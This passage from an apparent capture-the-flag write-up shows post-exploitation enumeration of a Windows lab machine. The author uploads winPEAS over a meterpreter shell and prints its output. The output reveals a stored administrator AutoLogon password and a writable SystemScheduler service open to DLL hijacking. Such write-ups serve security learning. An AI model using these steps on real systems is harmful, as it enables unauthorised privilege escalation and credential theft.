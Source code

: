 ### Local Enumeration

Now that I had achieved slightly stabler shell, I decided to start poking around the machine for a better escalation vector. I began this by using the new meterpreter shell to upload a copy of `winPEAS` to see if anything major stood out to me on the host.

I've truncated some of the `winPEAS` output for brevity.

```bash
meterpreter > upload /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/Release/
Dotfuscated         de                  fr                  pl                  winPEAS.exe.config  zh-CN               
Dotfuscator1.xml    es                  it                  ru                  winPEAS.pdb         
meterpreter > upload /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/Releasex64/Release/winPEAS.exe
[*] uploading  : /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
[*] Uploaded 461.00 KiB of 461.00 KiB (100.0%): /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
[*] uploaded   : /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
meterpreter > shell
Process 352 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\temp>.\winPEAS.exe
...
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
...
  [+] Installed Applications --Via Program Files/Uninstall registry--
   [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
    C:\Program Files (x86)\SystemScheduler(Everyone [WriteData/CreateFiles])
    C:\Program Files\Amazon
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Internet Explorer
    C:\Program Files\Uninstall Information
    C:\Program Files\Windows Mail
    C:\Program Files\Windows NT
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
...
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    YOU CAN MODIFY THIS SERVICE: Start, AllAccess
    File Permissions: Everyone [WriteData/CreateFiles], SYSTEM [AllAccess], Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles], SYSTEM [AllAccess], Administrators [AllAccess])
    System Scheduler Service Wrapper
   =================================================================================================
  [+] Modifiable Services
...
    WSService: Start, WriteData/CreateFiles, TakeOwnership
```
